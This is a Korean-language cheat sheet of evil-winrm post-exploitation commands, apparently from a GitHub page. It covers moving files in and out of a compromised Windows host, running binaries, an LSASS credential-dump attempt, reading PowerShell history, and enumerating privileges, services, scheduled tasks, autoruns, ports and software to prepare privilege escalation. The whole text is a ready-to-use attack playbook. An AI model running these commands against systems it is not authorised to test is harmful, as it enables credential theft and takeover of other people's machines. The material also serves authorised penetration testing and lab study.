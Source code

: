 ### 💻 PowerShell 원격 세션 활용

```bash
# 파일 업로드 (evil-winrm 세션 내)
upload /path/to/local/file.exe C:\temp\file.exe

# 파일 다운로드
download C:\temp\important.txt /path/to/save/

# PowerShell 스크립트 실행
menu  # evil-winrm 메뉴
Invoke-Binary /path/to/binary.exe

# 서비스 관련 명령
services  # 서비스 목록

# 메모리 덤프
lsadump  # LSASS 덤프 시도

# PowerShell 히스토리 확인
Get-History
(Get-PSReadlineOption).HistorySavePath
Get-Content (Get-PSReadlineOption).HistorySavePath
```

### 🛠️ 시스템 정보 수집 및 권한 상승 준비

```bash
# 시스템 상세 정보
Get-ComputerInfo
Get-HotFix  # 설치된 패치 확인

# 권한 상승 벡터 확인
whoami /priv
Get-Service | Where-Object {$_.Status -eq "Running"}

# 스케줄된 작업 확인
schtasks /query /fo LIST /v
Get-ScheduledTask

# 자동 실행 프로그램 확인
Get-WmiObject Win32_StartupCommand
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

# 네트워크 연결 및 포트 확인
netstat -ano
Get-NetTCPConnection | Where-Object {$_.State -eq "Listen"}

# 설치된 소프트웨어 확인
Get-WmiObject -Class Win32_Product
Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*
```

---